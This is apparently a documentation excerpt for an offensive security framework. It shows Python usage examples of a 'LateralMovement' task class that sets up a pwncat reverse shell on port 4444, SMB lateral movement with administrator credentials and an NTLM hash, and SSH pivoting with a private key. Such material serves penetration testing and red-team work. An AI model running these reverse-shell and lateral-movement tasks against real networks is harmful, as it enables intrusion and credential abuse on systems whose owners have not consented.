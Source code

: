 ### pwncat-cs Reverse Shell
```python
task = LateralMovement(
    name="pwncat_reverse_shell",
    params={
        "technique": "pwncat",
        "host": "192.168.1.100",
        "payload_type": "reverse_shell",
        "listen_port": 4444,
        "credentials": {
            "username": "admin",
            "password": "password123"
        }
    }
)

results = await task.run()
```

### SMB Lateral Movement
```python
task = LateralMovement(
    name="smb_lateral_move",
    params={
        "technique": "smb",
        "host": "192.168.1.50",
        "credentials": {
            "username": "administrator",
            "password": "admin123",
            "ntlm_hash": "aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76"
        }
    }
)

results = await task.run()
```

### SSH Pivoting
```python
task = LateralMovement(
    name="ssh_pivot",
    params={
        "technique": "ssh",
        "host": "10.0.0.50",
        "credentials": {
            "username": "ubuntu",
            "private_key": "-----BEGIN RSA PRIVATE KEY-----\n..."
        }
    }
)

results = await task.run()
```
